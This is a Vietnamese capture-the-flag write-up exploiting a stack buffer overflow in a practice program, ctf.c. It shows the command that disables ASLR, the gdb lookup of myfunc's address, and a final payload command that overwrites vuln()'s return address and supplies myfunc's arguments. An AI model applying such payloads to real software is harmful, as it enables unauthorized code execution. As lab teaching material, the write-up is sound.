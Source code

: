 # 2. Conduct attack on ctf.c

![alt text](../images/image-24.png)

Hàm vuln() sử dụng strcpy(buf,s) để sao chép đầu vào s vào mảng buf[100]. Tuy nhiên, hàm strcpy không kiểm tra đầu vào, nên nếu chuỗi s nhập hơn 100 ký tự, nó sẽ ghi đè lên các byte lân cận, gây ra buffer overflow

![alt text](../images/image-25.png)

mục tiêu là đè địa chỉ trả về của hàm vuln thành địa chỉ của hàm myfunc thì mới có thể chạy được hàm myfunc

Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên:

`sudo sysctl -w kernel.randomize_va_space=0`

![alt text](../images/image-26.png)

biên dịch chương trình ctf.c

![alt text](images/image-27.png)

chạy gdb để xem địa chỉ của hàm myfunc:

![alt text](../images/image-28.png)

=> Địa chỉ: 0x0804851b

=> chúng ta cần chèn 104 bytes + '\x1b\x85\x04\x08'

Stack sau khi đè lên giá trị trở về của hàm vuln():

![alt text](../images/image-30.png)

Giờ để lấy được flag ta cần phải vượt qua các chướng ngại vật sau:

- flag1.txt chưa có => phải tạo ra 1 file flag1.txt bằng lệnh `touch flag1.txt`
  
  ![image](https://github.com/user-attachments/assets/59dfac7f-00b2-420a-8c50-831f97decfdb)

- 2 tham số p,q của hàm myfunc chưa có trong stack, vì thế ta đè tiếp biến ebp và giá trị trả về của hàm main thành các flag của p,q

![image](https://github.com/user-attachments/assets/cb0204df-7af7-43d1-b5a6-f666c5e45e98)

=> Câu lệnh cuối cùng:

`./ctf.out $(python -c "print('a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`

- `'a' * 104`: chèn giá trị cho biến buf và biến ebp 
- `'\x1b\x85\x04\x08'` gán địa chỉ của hàm myfunc() đến địa chỉ trả về của hàm vuln()
- `'a'*4` gán giá trị cho biến s của hàm vuln
- `'\x11\x12\x08\x04'` gán địa chỉ p đến ebp của hàm main()
- `'\x62\x42\x64\x44'` gán địa chỉ q đến giá trị trở về của hàm main()

=> kết quả: 
  
![alt text](../images/image-31.png)


